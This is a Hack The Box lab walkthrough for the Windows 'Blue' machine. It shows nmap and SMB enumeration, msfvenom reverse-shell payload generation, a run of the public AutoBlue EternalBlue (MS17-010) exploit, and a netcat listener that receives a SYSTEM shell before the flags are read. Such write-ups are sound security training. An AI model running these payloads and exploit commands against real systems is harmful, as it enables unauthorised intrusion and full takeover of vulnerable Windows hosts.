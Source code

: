 # Blue

Machine Level: Easy 
OS: Windows

## Scanning 
I ran an aggressive NMAP scan to determine OS and versions of some of the services running on host ports. 
```
ajread@aj-ubuntu:~/hackthebox$ nmap -A [TARGET IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2023-01-17 20:23 CST
Nmap scan report for [TARGET IP]
Host is up (0.083s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  tcpwrapped
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-01-18T02:25:03
|_  start_date: 2023-01-18T02:23:11

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.82 seconds
```
It looked like this can be exploited using eternalblue or a similar exploit. 
## Initial Access
I had to look at the service running on port 445 using ```smbclient```. 
```
ajread@aj-ubuntu:~/hackthebox$ smbclient -L [TARGET IP] -U guest
Password for [WORKGROUP\guest]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk      
	Users           Disk      
SMB1 disabled -- no workgroup available
```
There wasnt anything in any of the fileshares as guest. 

I used the exploit found [here](https://github.com/3ndG4me/AutoBlue-MS17-010) since metasploit was not working for me. After successfully prepping my OS with the required dependencies, I was able to create a payload with ```msfvenom```. 
```
ajread@aj-ubuntu:~/hackthebox/playground/AutoBlue-MS17-010/shellcode$ ./shell_prep.sh 
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
[LOCAL IP]
LPORT you want x64 to listen on:
6666
LPORT you want x86 to listen on:
6666
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
Generating x64 cmd shell (stageless)...

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=[LOCAL IP]LPORT=6666
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (stageless)...

msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=[LOCAL IP]LPORT=6666
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE
```
I ran the exploit and with a listener on a seperate terminal. 
```
ajread@aj-ubuntu:~/hackthebox/playground/AutoBlue-MS17-010$ python2.7 eternalblue_exploit7.py [TARGET IP] ./shellcode/sc_x64.bin 
shellcode size: 1232
numGroomConn: 13
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```
And I dropped into a shell as administrator. 
```
ajread@aj-ubuntu:~$ nc -lnvp 6666
Listening on 0.0.0.0 6666
Connection received on [TARGET IP] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
There was no privilege escalation necessary and I was able to get both user and admin flags.
```
C:\Users\haris\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE92-053B

 Directory of C:\Users\haris\Desktop

24/12/2017  02:23    <DIR>          .
24/12/2017  02:23    <DIR>          ..
19/01/2023  21:36                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,170,183,680 bytes free
``` 
```
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE92-053B

 Directory of C:\Users\Administrator\Desktop

24/12/2017  02:22    <DIR>          .
24/12/2017  02:22    <DIR>          ..
19/01/2023  21:36                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,170,175,488 bytes free
```
I had a lot of issues running this exploit as metasploit didnt work. I found that AutoBlue was the best route. I had to have the machine reset right before running the exploit to get the cleanest target. 

